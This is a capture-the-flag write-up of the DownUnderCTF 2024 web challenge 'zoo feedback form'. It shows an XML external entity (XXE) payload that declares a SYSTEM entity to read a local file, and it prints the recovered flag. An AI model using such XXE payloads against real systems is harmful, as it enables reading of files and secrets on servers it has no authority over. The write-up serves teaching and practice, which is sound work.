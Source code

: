 ```yaml
---
title: "zoo feedback form"
description: "The zoo wants your feedback! Simply fill in the form, and send away, we'll handle it from there!"
pubDate: 2024-07-10
ctf: "DownUnderCTF 2024"
category: "web"
author: "sealldev"
section: "CTFs"
image: "images/24-downunder/icon.png"
---
```


> Original Writeup on [seall.dev](https://seall.dev/posts/downunderctf2024#zoo-feedback-form)

We are given both a web source code zip and an instance.

![zoofeedbackform](images/24-downunder/zoofeedbackform.png)

It reflects what we type, lets see whats going on in the request when I press `Submit Feedback`.

```xml
<?xml version="1.0" encoding="UTF-8"?>
            <root>
                <feedback>hi!!</feedback>
            </root>
```

Hm, XML has some common attacks such as [XXE](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity). I look at the source code and see we need to read a `./flag.txt`.

Looking at the XXE example payloads I craft a file read payload like this:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY example SYSTEM "./flag.txt"> ]>
            <root>
                <feedback>&example;</feedback>
            </root>
```

Let's try it!

`Feedback sent to the Emus: DUCTF{emU_say$_he!!0_h0!@_ci@0}`

Flag: `DUCTF{emU_say$_he!!0_h0!@_ci@0}`